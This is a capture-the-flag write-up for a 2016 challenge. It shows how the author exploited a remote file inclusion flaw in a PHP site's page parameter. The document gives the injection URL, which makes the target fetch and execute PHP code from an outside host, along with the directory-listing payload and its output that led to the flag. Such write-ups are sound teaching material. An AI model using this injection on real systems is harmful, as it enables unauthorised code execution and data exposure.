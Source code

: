 #Write-up Remote pentest (Mexico) - H4CK1T CTF 2016

Challenge text:
Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !

Challenge URL:
>http://91.231.84.36:9150

The challenge is to test the remote website for any vulnerabilities. After some searching I found the website was vulnerable to PHP code injection.
I tested this by uploading my TXT-file with PHP code to a webserver. Then I opened the TXT-file on the website and saw a listing of files.

The PHP-code is injected as follows:
> http://91.231.84.36:9150/index.php?page=http://whoisdere.r4u.nl/hack.txt?

Normally, it would show page=about or page=services or page=contact, because those are the default pages where the site links to. Now we have injected another file from another host, including the code, which is executed by PHP on the website.
This results in the following PHP-code to be executed on the website:

><?php <br/>
> <br/>
>$dir = "/var/www/srv/www"; <br/>
>$dh  = opendir($dir); <br/>
>while (false !== ($filename = readdir($dh))) { <br/>
>    $files[] = $filename; <br/>
>} <br/>

>sort($files); <br/>
>print_r($files); <br/>
>rsort($files); <br/>
>print_r($files);<br/> ?> <br/>

All files in the folder /var/www/srv/www are printed, where one of the files is: sup3r_$3cr3t_f1le.php.

>Array <br/>
( <br/>
    [0] => . <br/>
    [1] => .. <br/>
    [2] => .htaccess <br/>
    [3] => about.php <br/>
    [4] => contact.php <br/>
    [5] => css <br/>
    [6] => fonts <br/>
    [7] => index.php <br/>
    [8] => js <br/>
    [9] => php.ini <br/>
    [10] => services.php <br/>
    [11] => sup3r_$3cr3t_f1le.php <br/>
) <br/>
Array <br/>
( <br/>
    [0] => sup3r_$3cr3t_f1le.php <br/>
    [1] => services.php <br/>
    [2] => php.ini <br/>
    [3] => js <br/>
    [4] => index.php <br/>
    [5] => fonts <br/>
    [6] => css <br/>
    [7] => contact.php <br/>
    [8] => about.php <br/>
    [9] => .htaccess <br/>
    [10] => .. <br/>
    [11] => . <br/>
) <br/>

Obviously, we know this folder as the default apache folder is /var/www/. From there we can continuously change the code, so another subfolder can be viewed. Eventually you will find the folder with this file.

By browsing to the file sup3r_$3cr3t_f1le.php, you will find the flag:
> h4ck1t{g00d_rfi_its_y0ur_fl@g}
